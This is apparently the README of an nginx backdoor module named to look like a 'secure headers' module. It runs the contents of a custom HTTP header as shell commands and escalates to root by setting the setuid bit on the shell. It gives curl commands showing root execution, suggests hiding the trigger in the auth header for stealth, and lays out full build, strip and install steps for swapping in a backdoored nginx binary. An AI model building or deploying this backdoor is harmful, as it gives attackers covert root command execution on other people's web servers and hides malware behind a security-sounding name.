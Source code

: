 # Info
Backdoor command execute as the nginx worker process (www-data)

This inserts itself as a handler during the `NGX_HTTP_ACCESS_PHASE` and looks for a specific header (`backdoor` in source)

When that header is found it executes the value of the header as a command and returns the output
```
curl -H "vgo0: whoami" localhost:8888
root
```

Using a header nginx already references would be more performant instead of having to seek the custom one.
https://github.com/nginx/nginx/blob/master/src/http/ngx_http_request.h
A good spot might be to stack this in the auth header

During module init there is a phase where commands can usually be run as root depending on how nginx is getting started
This can be used to provide escalation persistance (SUID, Privileges, etc)
See `ngx_http_secure_headers_init` for very basic example

A poor mans escalation within command exec is provided via chmod u+s of the shell specified. This then gets passed to popen. On normal nginx teardown this will be reverted (chmod u-s)

It is roughly:
`popen(escalate + " -p -c " + header_in + " 2>&1")`
`popen('/bin/sh -p -c whoami 2>&1')`

popen is ultimately sh -c so it becomes something like:
`/bin/sh -c '/bin/sh -p -c whoami 2>&1'`

There are likely stealthier methods available

Setting `escalate` to `""` avoids this

# Sample
A sample dynamic and static version are provided in the docker folders compiled against `1.21.6`
```
cd docker-dynamic
docker-compose up -d

curl -H "vgo: whoami" localhost:8888
Normal output

curl -H "vgo0: whoami" localhost:8888
root
```

# Usage

This is version specific

# Download
https://nginx.org/en/download.html

Extract
Switch to directory

# Dynamic
## Configure - Dynamic
`./configure --add-dynamic-module=/opt/nginx-backdoor --with-compat`

## Make - Dynamic
`make modules`

## Get .so
`strip -s objs/ngx_http_secure_headers_module.so`
`cp objs/ngx_http_secure_headers_module.so ...`

## Enable - Dynamic
Place .so on disk
Add to nginx config somehow (for dynamic):
load_module path/to/ngx_http_secure_headers_module.so;
service nginx restart

# Static
## Configure - Static
Basic that works can be tested in docker (paths etc should match if replacing):

`./configure --sbin-path=/usr/sbin/nginx --conf-path=/etc/nginx/nginx.conf --error-log-path=/var/log/nginx/error.log --http-log-path=/var/log/nginx/access.log --prefix=/usr/lib/nginx --add-module=/opt/nginx-backdoor`

## Make - Static
`make`

## Get resulting 
`strip -s objs/nginx`
`cp objs/nginx`
